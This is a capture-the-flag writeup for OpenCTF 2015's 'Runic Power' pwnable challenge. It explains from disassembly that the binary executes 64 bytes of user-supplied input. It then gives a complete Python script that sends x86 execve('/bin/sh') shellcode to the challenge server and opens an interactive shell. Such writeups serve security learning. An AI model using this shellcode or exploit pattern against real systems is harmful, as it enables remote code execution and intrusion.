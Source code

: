 ```yaml
---
title: "OpenCTF 2015 - Runic Power (binary,exploitation,pwnable 200) Writeup"
slug: "openctf-2015-runic-power-binaryexploitationpwnable-200-writeup"
date: "2015-08-12 09:18:13.640585"
author_name: "hbw"
author_email: "henry.babaweiss@gmail.com"
draft: false
toc: false
images:
---
```


Hint:

> Runic Power 200 --- Even a tyro will crush this challenge at 10.0.66.71:6698

(solved by seaz, writeup by hbw)

For this challenge, we're given a 32-bit Linux binary and a network service. Connecting to this service (e.g. via netcat) simply executes the binary on their server: anything we send over the connection is forwarded to the binary's stdin, and anything the binary writes to stdout is relayed back to us. The binary itself has its symbols stripped, but by disassembling the binary, we can find the main function by examining the first argument passed to `__libc_start_main`. (These examples use the output from `objdump -M intel-mnemonic -d runic_power-cb3db53a7ec552900f99dbe7c4b63561`.)

{language=python}
~~~~~~~~
8048397: 68 7d 84 04 08 push 0x804847d
804839c: e8 bf ff ff ff call 8048360 __libc_start_main@plt
~~~~~~~~

Which gives us this:

{language=python}
~~~~~~~~
804847d:   55                      push   ebp
804847e:   89 e5                   mov    ebp,esp
8048480:   83 e4 f0                and    esp,0xfffffff0
8048483:   83 ec 30                sub    esp,0x30
8048486:   c7 44 24 14 00 00 00    mov    DWORD PTR [esp+0x14],0x0
804848d:   00
804848e:   c7 44 24 10 ff ff ff    mov    DWORD PTR [esp+0x10],0xffffffff
8048495:   ff
8048496:   c7 44 24 0c 22 00 00    mov    DWORD PTR [esp+0xc],0x22
804849d:   00
804849e:   c7 44 24 08 07 00 00    mov    DWORD PTR [esp+0x8],0x7
80484a5:   00
80484a6:   c7 44 24 04 ff ff 00    mov    DWORD PTR [esp+0x4],0xffff
80484ad:   00
80484ae:   c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
80484b5:   e8 96 fe ff ff          call   8048350 <mmap@plt>
80484ba:   89 44 24 2c             mov    DWORD PTR [esp+0x2c],eax
80484be:   c7 44 24 08 ff ff 00    mov    DWORD PTR [esp+0x8],0xffff
80484c5:   00
80484c6:   c7 44 24 04 00 00 00    mov    DWORD PTR [esp+0x4],0x0
80484cd:   00
80484ce:   8b 44 24 2c             mov    eax,DWORD PTR [esp+0x2c]
80484d2:   89 04 24                mov    DWORD PTR [esp],eax
80484d5:   e8 96 fe ff ff          call   8048370 <memset@plt>
80484da:   c7 44 24 08 40 00 00    mov    DWORD PTR [esp+0x8],0x40
80484e1:   00
80484e2:   8b 44 24 2c             mov    eax,DWORD PTR [esp+0x2c]
80484e6:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
80484ea:   c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
80484f1:   e8 3a fe ff ff          call   8048330 <read@plt>
80484f6:   8b 44 24 2c             mov    eax,DWORD PTR [esp+0x2c]
80484fa:   ff d0                   call   eax
80484fc:   b8 00 00 00 00          mov    eax,0x0
8048501:   c9                      leave
8048502:   c3                      ret
~~~~~~~~

This is a pretty straightforward function that does the following very nice things for us:

- mmap's a 64KB buffer with read, write, and execute permissions, and zeroes it out.

- Reads 64 bytes of data from stdin into that buffer.

- Makes a call into that buffer.

Or, in other words, it runs 64 bytes of shellcode that we supply. That's plenty enough bytes for us to pop a shell on their server. Here is our final exploit script:

{language=python}
~~~~~~~~
 1 #!/usr/env python2
 2 import socket
 3 from telnetlib import Telnet
 4 import time
 5 
 6 s = socket.socket()
 7 s.connect(("10.0.66.71", 6698))
 8 s.send("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")
 9 time.sleep(1)
10 
11 t = Telnet()
12 t.sock = s
13 t.interact()
~~~~~~~~

After sending the exploit, we use `Telnet.interact()` to use our obtained shell via the console, which we use to cat the flag:

SRSLY_this_was_trivial_for_x86
